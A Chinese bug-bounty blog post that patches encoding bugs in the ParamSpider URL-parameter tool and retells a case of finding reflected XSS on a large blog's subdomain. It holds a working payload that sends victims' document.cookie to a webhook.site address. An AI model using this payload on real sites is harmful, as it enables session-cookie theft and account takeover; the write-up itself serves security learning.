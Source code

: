 #  【海外SRC漏洞挖掘】参数FUZZ工具Bug修复+实战利用案例（任意用户接管）   
原创 fkalis  fkalis   2024-11-14 11:17  
  
# 海外SRC赏金挖掘专栏  
> **在学习SRC，漏洞挖掘，外网打点，渗透测试，攻防打点等的过程中，我很喜欢看一些国外的漏洞报告，总能通过国外的赏金大牛，黑客分享中学习到很多东西，有的是一些新的信息收集方式，又或者是一些骚思路,骚姿势，又或者是苛刻环境的漏洞利用。于是我打算开启这个专栏，将我认为优秀的文章进行翻译，加入我的理解和笔记，方便我自己学习和各位师傅共同进步，我争取做到日更，如果各位师傅觉得有用的话，可以给我点个关注~~ 如果师傅们有什么好的建议也欢迎联系我~~ 感谢各位师傅的支持~~**  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicdYMrcDj1IM8qV6I0rkpibO7pTY4CibicHmG6uHuL0eiasl9l6xI2MDRZaKhicsPUAdzslV95G055uvHibw/640?wx_fmt=png&from=appmsg "")  
# 正文部分  
## 场景介绍  
> **我们在使用 Wayback Machine 搜索历史泄露的URL的时候，面对这么大量的数据，会遇到很多没有用的数据，这时候我们可能需要进行一些过滤，才能更好的去进行FUZZ，这款工具就可以在 Wayback Machine 基础上进行过滤，提取出有用的接口和URL以及参数，结合FUZZ可以实现不一样的效果！！**  
  
```
https://github.com/devanshbatham/ParamSpider

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVCAKYrXRicxpOdVrL4FibfH7RYf6I8TibjnKH31xpbACn01EReMthD0CeMQ/640?wx_fmt=png&from=appmsg "null")  
  
**Wayback Machine**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVC6NSmOiaiatKVYuvhrAegAmhxAh7cbrOv33HO1ImVm3OflQwDKiabrJSrg/640?wx_fmt=png&from=appmsg "null")  
## Bug修复  
> **如果有懒得自己去修改的师傅可以直接去我GitHub上下载已经修改好的就行啦：**  
https://github.com/FFR66/ParamSpider  
  
****  
  
  
### 安装报错  
  
这个报错是因为set.up文件读取文件时候的编码问题导致的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVCCqwyiavwxKsZkMJAzqAaia8kjicNV8EzHN1aPlzkqNTSdXA5D5ACouQLg/640?wx_fmt=png&from=appmsg "null")  
### 尝试修复  
  
在set.up文件中添加编码为utf-8即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVCI0UAm5sN5g9pyXytSoZ1jkFMqVcNic4pFjdfEkSLF8oLuTdZC7UgL8A/640?wx_fmt=png&from=appmsg "null")  
  
成功进行安装  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVCPbh4FklBB2wRryvhhHYz9oIOUq6BHcK8j55NWL59EvNovRWmrBSeiag/640?wx_fmt=png&from=appmsg "null")  
### 运行报错  
  
这个报错也是编码问题导致的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVC5PO7jv9AsrU1gaRP89hgYkXqS4gLjUxObGXTOIKhCk9nhX7Lyd1Hibg/640?wx_fmt=png&from=appmsg "null")  
### 报错解决  
  
在main.py中的两处文件的读取的地方加入编码格式即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVCTp8Z65h7233sT4SFhPl7Ip0Bx4vFAnFrCJbd9iavRlr1ic5icZnGbOibWw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVCF3BOeyQsmWfcarDzialcwLwgVTHrJAlQqM4SfeiayNe8WTngjwfFVs5Q/640?wx_fmt=png&from=appmsg "null")  
### 正常使用  
```
paramspider -d xxx.edu.cn --proxy http://127.0.0.1:7890 -s
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVCnia1BicnEIo44YRlotHnXuzoyyXxk56aicejWA0kibuMPicib2kov2203YKw/640?wx_fmt=png&from=appmsg "null")  
```
Tips：这里他自动将FUZZ填入了，可以尝试和fuff进行结合，进行参数值的FUZZ！！
```  
### 拓展  
> 通过阅读他的代码发现他的清理数据的过程本质上进行了两步：  
> 1. 清理想要过滤的后缀url2. 将参数值加入FUZZ后缀（可以自定义）  
  
  
**默认过滤的后缀**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVCfW5Pwo3soNkLdgTpsgkX1zEwy4ubH47TKcicvyjpmV1TyTqtXDMVTiag/640?wx_fmt=png&from=appmsg "null")  
  
**我们可以根据自己的思路，子啊clean_urls中进行修改，例如加入对URL的验证等等，这就看各位师傅的思路了，如果有什么好的提议，也可以联系我，我加入在里面~~**  
```
def clean_urls(urls, extensions, placeholder):
"""    Clean a list of URLs by removing unnecessary parameters and query strings.    Args:        urls (list): List of URLs to clean.        extensions (list): List of file extensions to check against.    Returns:        list: List of cleaned URLs.    """
    cleaned_urls =set()
for url in urls:
        cleaned_url = clean_url(url)
ifnot has_extension(cleaned_url, extensions):
            parsed_url = urlparse(cleaned_url)
            query_params = parse_qs(parsed_url.query)
            cleaned_params ={key: placeholder for key in query_params}
            cleaned_query = urlencode(cleaned_params, doseq=True)
            cleaned_url = parsed_url._replace(query=cleaned_query).geturl()
            cleaned_urls.add(cleaned_url)
returnlist(cleaned_urls)
```  
## 实战案例  
> **原作者：https://medium.com/@jeetpal2007**  
****  
  
  
### 使用 ParamSpider 信息收集  
  
在寻找拥有数百万用户的程序（特别是大型博客网站，我将其称为 redacted.com）时，我首先列举了它的子域。我找到的一个子域是 **jp.redacted.com**。  
  
接下来，我使用 ParamSpider 收集所有可能的参数。我使用的命令是：  
```
param spider -d jp.redacted.com -s  
```  
  
此命令列出了终端中所有可能的参数。其中，我发现了一个名为 **s=** 的参数，成功发现XSS  
```
<script>alert(1)</script>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVCfkSazKvmib51qa2GsNt6AQTrXxcdMV2aMoTic5DYwSasTypE9n7pQsJg/640?wx_fmt=png&from=appmsg "null")  
### 危害提升（获取cookie）  
  
这个站点没有使用httponly的机制，所以我们就可以使用 document.cookie 获取到cookie 提升危害  
```
<img src="x" onerror=document.location=%27https://webhook.site/790fbd5e-8cc4-441e-9a81-6ac18f40cb5f?c=%27+document.cookie;">
```  
  
成功捕获了受害者 cookie。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiceiaiaNJBqInYJ4ZJ6zpCJzVCaysfxSMxF8sLBxMXRvHazerXoTeFhUWxvofOQwC3PAktnylNBKOMBg/640?wx_fmt=png&from=appmsg "null")  
# 知识星球  
  
**具体的星球介绍可以看一下这里~~**  
  
[WingBy小密圈，他来了！](https://mp.weixin.qq.com/s?__biz=MzkyODcwOTA4NA==&mid=2247484765&idx=1&sn=01366a5d13fb4be7f9c0e69e565d64ff&chksm=c215e5eef5626cf8c87fcca7d784068772d364a12aa4b4a224aebd1e69bddf52fec0f791d000&token=276602823&lang=zh_CN&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicdYMrcDj1IM8qV6I0rkpibO7lPF38IqibU9Az906W6RHJBQhf2OR32Ks7sd8Xh4ric0VFRNR2lXmFwKA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/OlNJlSSibBicdCvkAftp00C0F9g6uLYXGnpAWQmOBwrqRUI6V26tvWqFJib6PmZO9fiaY0nia2An9JmtL5mMibqIAH5w/640?wx_fmt=jpeg&from=appmsg "null")  
  
**注意：帮会和星球是为了考虑大家的方便习惯，福利和内容是一致的，后续更新也是一致的~~~只需要进行一次付费就可以啦~~（建议还是使用帮会）**![](https://mmbiz.qpic.cn/mmbiz_jpg/OlNJlSSibBicf197vbRopEgYNZjbmJ00wHzicThAsLt7xehsSWC5JKY3NSEMkWbGolb0oSJmLlQlqHTic5bVyFgeBg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
# 项目合作  
  
  
**有甲方大大，或者厂商师傅，或者其他的项目，欢迎咨询，我以及团队始终将客户的需求放在首位，确保客户满意度~~**  
  
****  
**目前主要的服务范围：**  
****  
> **1. 渗透测试、漏洞扫描**  
  
**2. 代码审计**  
  
**3. 红蓝攻防**  
  
**4. 重保以及其他攻防类项目**  
  
**5. 红队武器化开发以及蓝队工具开发**  
  
**6. CTF相关赛事的培训等**  
  
**7. cnvd，cnnvd，edu，cve等证书**  
  
**8. nisp，cisp等证书**  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicdYMrcDj1IM8qV6I0rkpibO7ZJRQaUkzj4SdzlE2LemzRDG7yrl4rP4cFunhhibibX3CzGEPwFQzqIkw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
